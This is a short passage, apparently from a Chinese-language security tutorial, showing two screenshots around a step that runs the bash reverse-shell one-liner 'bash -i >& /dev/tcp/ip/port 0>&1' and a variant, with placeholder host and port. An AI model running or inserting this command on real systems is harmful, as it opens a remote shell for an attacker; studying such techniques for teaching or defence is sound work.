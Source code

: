 

[![F38m9Hlg48.png](Untitled.assets/15319944699194.png)](https://image.3001.net/images/20180719/15319944699194.png)



执行`bash -i >& /dev/tcp/ip/port 0>&1`或者`bash -i >& /dev/tcp/ip/port 0>&2`后：



[![iG2h7i1g7D.png](Untitled.assets/15319944911875.png)](https://image.3001.net/images/20180719/15319944911875.png)
